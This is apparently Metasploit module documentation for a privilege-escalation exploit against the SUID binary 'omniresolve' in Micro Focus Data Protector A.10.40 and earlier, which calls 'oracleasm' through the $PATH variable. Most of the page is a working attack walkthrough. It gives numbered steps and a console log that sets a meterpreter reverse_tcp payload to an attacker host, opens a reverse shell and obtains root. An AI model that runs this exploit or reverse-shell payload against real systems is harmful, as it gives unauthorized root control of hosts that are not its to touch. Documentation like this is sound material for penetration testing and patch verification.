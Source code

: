 ## Description

  This module exploits the trusted `$PATH` environment
  variable of the SUID binary `omniresolve` in
  Micro Focus (HPE) Data Protector A.10.40 and prior.

  The `omniresolve` executable calls the `oracleasm` binary using
  a relative path and the trusted $PATH, which allows an attacker
  to execute a custom binary with `root` privileges.


## Vulnerable Application

  This module has been successfully tested on:

  * HPE Data Protector A.09.07: OMNIRESOLVE, internal build 110
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 118 on CentOS Linux release 7.6.1810 (Core)

  The vulnerability has been patched in:
  * Micro Focus Data Protector A.10.40: OMNIRESOLVE, internal build 125


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/omniresolve_suid_priv_esc`
  4. `set SESSION [SESSION]`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SUID_PATH**

  Path to `omniresolve` executable (default: `/opt/omni/lbin/omniresolve`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenario

### DP 10.40 build 118 on CentOS Linux release 7.6.1810 (Core)

  ```
  msf5 > use exploit/linux/local/omniresolve_suid_priv_esc
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > check
  [+] The target is vulnerable.
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/komniresolve_suid_priv_esc) > set lhost 192.168.0.113
  lhost => 192.168.0.113
  msf5 exploit(linux/local/omniresolve_suid_priv_esc) > run
  
  [*] Started reverse TCP handler on 192.168.0.113:4444 
  [*] Sending stage (3021284 bytes) to 192.168.0.107
  [*] Meterpreter session 2 opened (192.168.0.113:4444 -> 192.168.0.107:54510) at 2019-10-01 13:19:45 -0400
  [+] Deleted /tmp/oracleasm
  [+] Deleted /tmp/gprjmiMGOr
  
  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 192.168.0.107
  OS           : CentOS 7.6.1810 (Linux 3.10.0-957.21.2.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```
